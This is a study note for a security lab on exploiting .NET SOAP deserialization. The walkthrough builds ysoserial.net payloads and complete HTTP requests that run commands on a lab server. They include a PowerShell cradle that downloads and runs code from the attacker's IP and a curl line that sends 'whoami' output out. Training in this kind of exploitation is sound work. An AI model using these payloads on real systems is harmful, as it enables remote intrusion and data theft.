2026-02-07 00:51

Status:

Tags:[[eWPTX]]
###### Prerequisites: 
# Lab .NET Deserilization
# Solutions

Below, you can find solutions for each task. Remember though, that you can follow your own strategy, which may be different from the one explained in the following lab.

## Task 1. Perform reconnaissance and find a soap-based web service

A port scan reveals two possible candidates (see below).

```
nmap -sV -p- demo.ine.local -T4 --open -v -Pn
```



The results are:

```
Not shown: 62690 closed tcp ports (reset), 2831 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1234/tcp  open  http               MS .NET Remoting httpd (.NET CLR 4.0.30319.42000)
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
49192/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```



Examining the service on port 80 shows a frame that fails to be loaded.





The service on port 1234 reacts to a simple SOAP message.



Note, that it is a valid service endpoint, since when requesting an incorrect path the error mentions **"Requested Service not found".**

## Task 2. Execute code on remote machine

Let's use ysoserial.net to generate a payload in SoapFormat, in an attempt to identify if the remote service is vulnerable.

**Note that you might need to remove \<SOAP:Body> tags from the resulting payload before testing.**

Also note that you need a Windows OS on which you will run the ysoserial.net binary with the below command:

```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c [command]" -o raw
```





The .NET serialization protocol in this case does not verify the length of the command string, it will thus be possible to interfere with it after generating the payload. The payload is then copied to Burp with the following changes:

- As said before, Soap Body tags should be removed
    
- In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab
    
- The content type should be text/xml like in every SOAP request
    
- If you are receiving an error stating "Requested service was not found", you might also need to clear some whitespaces / newlines
    

Blind Code execution can be confirmed, for example, using ping.

For that, we need the IP address of the attacker machine:

**Command:**  

```
ip addr
```



**Request:**  

```
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.27.2&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

**Note:** Make sure to place the IP address of your attacker machine in the above command.





Before sending the above request, use the following command to listen for ICMP requests/replies:

**Command:**

```
tcpdump -i any icmp
```



Send the request to the vulnerable SOAP endpoint:



By the time the crafted request is sent, we can notice ICMP traffic reaching our sniffer from the remote target!



## Task 3. Get command output using an out-of-band channel

There are many methods to achieve that goal. We will do the task using PowerShell. First, we will create the following snippet and then host it using Python's SimpleHTTPServer module.

```
$c=whoami;curl http://10.10.27.2:445/$c
python3 -m http.server 445
```

**Note:** Make sure to place the IP address of your attacker machine in the above command.



And finally, the following command is injected into the serialized payload:

```
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"
```

**Note:** Make sure to place the IP address of your attacker machine in the above command.

The request for out-of-band data exfiltration via command execution is:

```
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c &#34;powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

**Note:** Make sure to place the IP address of your attacker machine in the above request.



Send the above request from Burp Suite:



We can see the output of the "whoami" command being transmitted in the HTTP GET parameter. This is because PowerShell fetched the remote resource and then immediately executed it using the IEX command. Note that we haven't even touched the filesystem!

